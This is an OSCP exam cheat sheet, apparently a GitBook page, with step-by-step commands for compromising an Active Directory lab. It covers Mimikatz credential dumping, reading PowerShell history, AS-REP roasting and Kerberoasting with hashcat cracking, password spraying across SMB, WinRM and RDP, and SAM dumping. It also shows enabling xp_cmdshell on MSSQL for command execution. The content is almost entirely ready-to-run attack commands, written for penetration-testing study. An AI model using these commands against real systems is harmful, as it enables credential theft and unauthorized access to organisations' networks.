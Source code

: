 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# OSCP

## 🪟 AD Part

1. `MS01` → enumerate, setup pivot, PE

## 🚀 MS01 PE

* [x] Check user's privileges:

```powershell
whoami /priv
```

→ `SeImpersonatePrivilege` → [escalate to LA](https://x7331.gitbook.io/boxes/tl-dr/active-directory/privileges/seimpersonateprivilege)

* [x] Look for custom binaries:&#x20;

→ `strings` locally&#x20;

→ [Binary](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#service-binary-hijacking)/[DLL](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#dll-hijacking) hijacking

### 2. Pillaging



* Dump credentials with Mimikatz:

```
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
```

* Check PowerShell history:

```
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Enumerate the path
(Get-PSReadlineOption).HistorySavePath
# List its contents
cat C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

* Enumerate domain users and build a wordlist

```
$ nxc smb 192.168.X.X -u <user> -p <pass> --users | awk '$1 == "SMB" && $5 != "[+]" && $5 != "-Username-" && $5 != "[*]" {print $5}' > domain_users
```

* Enumerate SMB shares

```
nxc smb 192.168.X.X -u <user> -p <pass> --shares
```

* Check for [AS-REP Roasting](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/asreproasting):

```
impacket-GetNPUsers oscp.exam/ -dc-ip 10.10.X.X -no-pass -usersfile domain_users
hashcat -m 18200 asreproast_users /usr/share/wordlists/rockyou -r /usr/share/hashcast/rules/best64.rule --force
```

* Check for [Kerberoasting](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/kerberoasting):

```
impacket-GetUserSPNs -request -dc-ip 10.10.X.X oscp.exam/<user>
hashcat -m 13100 kerberoast_users /usr/share/wordlist/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

* Password spray the domain to enumerate valid accounts and remote access:

```
nxc smb domain_ips -u domain_users -p passwords --continue-on-success | grep +
nxc winrm domain_ips -u domain_users -p passwords --continue-on-success | grep +
nxc rdp domain_ips -u domain_users -p passwords --continue-on-success | grep +
```

### 2. Pivot to MS02



* Use sprayed creds to check access via WinRM or RDP:

```
evil-winrm -u <user> -p <pass> -i <MS02>
xfreerdp /u:<user> /p:<pass> /v:<MS02> /smart-sizing
```

### 3. Enumerate MS02



* Check for `C:\windows.old` folder → [dump SAM and SYSTEM locally](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/local-sam-dump):

```
impacket-secretsdump -sam SAM -system SYSTEM LOCAL
```

* Look for custom binaries → download and run `strings` to extract creds, check for [binary](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#service-binary-hijacking)/[DLL](https://x7331.gitbook.io/boxes/tl-dr/active-directory/attacks/services#dll-hijacking) hijacking
* Check local sockets:

```
netstat -ano
```

* Check [PowerShell history](https://x7331.gitbook.io/boxes/tl-dr/infra/windows#files):

```
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Get-Content C:\Users\<user>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

# Enumerate the path
(Get-PSReadlineOption).HistorySavePath
# List its contents
cat C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

* if `sql_svc` is owned, interact via Impacket or NetExec:

```
# Impacket
mssqlclient.py <domain>/<user>@<host> -windows-auth
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';

# NXC
# Remote queries
nxc mssql <target> -u <user> -p <pass> --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
# System RCE via xp_cmdshell
nxc mssql <target> -u <user> -p <pass> --local-auth -x whoami
```

* Pass-spray all discovered creds
